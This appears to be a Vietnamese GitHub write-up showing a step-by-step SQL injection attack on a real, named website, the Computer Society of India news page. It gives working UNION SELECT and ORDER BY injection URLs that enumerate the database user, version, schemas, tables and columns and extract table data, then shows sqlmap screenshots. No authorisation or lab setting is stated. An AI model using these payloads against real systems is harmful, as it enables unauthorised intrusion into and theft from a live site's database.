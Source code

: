 # TỔNG QUAN # 

Kiểm tra trên web "Computer Society of India" `https://csi-india.org/news/index.php?id=18`

![image](https://github.com/user-attachments/assets/089b7ff5-3f94-4575-a9ee-1e0876ec59a3)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`https://csi-india.org/news/index.php?id=18+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/1db5d0ae-72f2-432c-abeb-fb572dd2c1ea)

=> Số cột lớn hơn 1

`https://csi-india.org/news/index.php?id=18+ORDER+BY+10`

![image](https://github.com/user-attachments/assets/84374454-20c5-4db2-a2c6-23d905c49bcf)

=> Số cột bé hơn 10

`https://csi-india.org/news/index.php?id=18+ORDER+BY+8`

![image](https://github.com/user-attachments/assets/cccfee89-cf9f-4c3a-be8a-fc30af8329e1)

=> Số cột là 8    
## Kiểm tra database, version, user 

**1. User**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,user(),5,6,7,8`

![image](https://github.com/user-attachments/assets/75227e5b-953a-48dd-a56a-c49d4b1b8725)

**2. Version**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,version(),5,6,7,8`

![image](https://github.com/user-attachments/assets/e623bf1a-727f-4a23-b0a4-2b80b280a6cb)

**3. Database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,database(),5,6,7,8`

![image](https://github.com/user-attachments/assets/12a78158-d713-44f4-add8-74f6ae91d9fa)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/5780aae7-dc2c-482a-aea2-d3aa8ae689f1)

**2. Liệt kê các bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7c),5,6,7,8+from+information_schema.tables+where+table_schema='csiindia_portal'`

![image](https://github.com/user-attachments/assets/182e61f9-cd2a-41c6-850b-e4eb2154eecf)

**3. Liệt kê các cột trong bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7,8+from+information_schema.columns+where+table_name='category'`

![image](https://github.com/user-attachments/assets/5af91210-33b2-48bd-82c6-bb20f117567b)

**4. Trích xuất dữ liệu bất kì**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,cat_name,5,6,7,8+from+category`

![image](https://github.com/user-attachments/assets/bd7fcad5-1cec-4fb6-b54d-4b3411818224)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

![image](https://github.com/user-attachments/assets/9eb20627-fe43-4f2d-a951-70ad997a8b40)

**2. Lấy các bảng trong database**

![image](https://github.com/user-attachments/assets/5175361d-dbfc-4e58-816b-a83455ffbf2f)

**3. Lấy các cột trong bảng**

![image](https://github.com/user-attachments/assets/e6f0927a-96ea-4981-8369-1ce2c3304d79)

![image](https://github.com/user-attachments/assets/0f51fac4-636d-4fd7-9484-61a5228846b6)

![image](https://github.com/user-attachments/assets/8e4d4498-7349-4421-8d82-4454e266ccb6)



